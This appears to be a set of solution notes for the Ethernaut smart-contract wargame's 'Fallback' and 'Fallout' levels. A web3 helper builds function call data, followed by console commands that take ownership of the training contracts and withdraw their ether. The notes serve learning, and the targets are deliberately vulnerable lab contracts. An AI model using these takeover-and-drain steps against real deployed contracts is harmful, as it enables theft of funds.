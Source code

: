 // this function creates the data string necessary to get the function identifier which can then be used thusly:
//web3.sendTransaction({to: instance, value: toWei(0.0001), data: functionData(contract,"contribute")})
// in which contribute is the function name, and instance is the contract address

function functionData(contract, functionName, parameters){ 
    let abi = web3.eth.contract(contract.abi);
    let w3Contract = abi.at(contract.address);
    if (parameters != undefined){
        return w3Contract[functionName].getData(...parameters);
    } else {
        return w3Contract[functionName].getData();
    }
}

* Fallback

sendTransaction({to: instance, value: toWei(0.0001), data: functionData(contract,"contribute")})
sendTransaction({to: instance, value: toWei(0.0001)})
contract.withdraw()


* Fallout
sendTransaction({to: instance, value: toWei(0.0001), data: functionData(contract,"Fal1out")})
contract.withdraw()
